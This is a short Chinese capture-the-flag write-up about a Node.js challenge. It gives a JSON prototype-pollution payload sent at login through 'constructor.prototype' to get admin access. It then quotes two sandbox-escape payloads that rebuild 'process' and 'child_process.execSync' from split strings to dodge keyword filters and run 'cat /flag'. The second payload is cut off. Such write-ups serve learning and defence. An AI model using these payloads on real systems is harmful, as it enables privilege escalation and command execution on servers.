 ![](./images/1697439664-image.png)

不过这道题使用污染的地方不在register。。。在这里困了好久

应该是先去注册一个用户，然后在login界面进行原型链污染，由于proto被ban了，那就只有使用constructor来进行污染，要先注册一个test用户，然后再在login界面抓包上传下面的json部分

```
{
"username": "test",
"password": "test",
"constructor": {
"prototype": {
"test": "123"
 }
 }
}
```

再用污染的用户密码登录进去，就能以admin的身份进去

源代码里过滤掉了常见的函数，但是js是可以通过字符串拼接的方式来获得函数名

官方wp👇

```
// method 1
throw new Proxy({}, { // Proxy 对象⽤于创建对某⼀对象的代理, 以实现属性和⽅法的拦截
get: function(){ // 访问这个对象的任意⼀个属性都会执⾏ get 指向的函数
const c = arguments.callee.caller
const p = (c['constru'+'ctor']['constru'+'ctor']('return pro'+'cess'))()
return p['mainM'+'odule']['requi'+'re']('child_pr'+'ocess')['ex'+'ecSync']('cat
/flag').toString();
 }
})
// method 2
let obj = {} // 针对该对象的 message 属性定义⼀个 getter, 当访问 obj.message 时会调⽤对应的函数
obj.__defineGetter__('message', function(){
const c = arguments.callee.caller
const p = (c['constru'+'ctor']['constru'+'ctor']('return pro'+'cess'))()
return p['mainM'+'odule']['requi'+'re']('child_pr'+'ocess')['ex'+'ecSync']('cat
/flag').toString();
```